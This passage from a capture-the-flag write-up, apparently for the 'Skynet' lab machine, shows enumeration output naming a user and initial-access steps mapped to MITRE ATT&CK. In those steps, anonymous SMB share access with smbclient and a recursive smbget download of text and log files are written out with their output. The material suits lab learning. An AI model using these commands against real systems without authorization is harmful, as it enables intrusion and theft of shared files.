 \| SKYNET\milesdyson (RID: 1000)

\| Full name:

\| Description:

|\_ Flags: Normal user account

Nmap done: 1 IP address (1 host up) scanned in 1.28 seconds

**IMAP**

* Dovecot pop3d.

### **Initial Access (ID: TA0001)** <a href="#vtfrhyqp7jsv" id="vtfrhyqp7jsv"></a>

#### **Inspect "/anonymous" SMB share (Gather Victim Identity Information (T1589.001)** <a href="#id-2syc3xu3lwmp" id="id-2syc3xu3lwmp"></a>

smbclient //TARGET\_IP/anonymous

WARNING: The "syslog" option is deprecated

Enter WORKGROUP\root's password:

Try "help" to get a list of possible commands.

smb: \\> dir

. D 0 Thu Nov 26 16:04:00 2020

.. D 0 Tue Sep 17 08:20:17 2019

attention.txt N 163 Wed Sep 18 04:04:59 2019

logs D 0 Wed Sep 18 05:42:16 2019

#### **Recursively download \anonymous share (Collection: Data from Network Shared Drive (T1039))** <a href="#j3qkigrbswl8" id="j3qkigrbswl8"></a>

* Submit username and password as nothing.

smbget -R smb://TARGET\_IP/anonymous

Password for \[guest] connecting to //anonymous/10.10.9.168:

Using workgroup WORKGROUP, user guest

smb://10.10.9.168/anonymous/attention.txt

smb://10.10.9.168/anonymous/logs/log2.txt

smb://10.10.9.168/anonymous/logs/log1.txt

smb://10.10.9.168/anonymous/logs/log3.txt

Downloaded 634b in 1 seconds
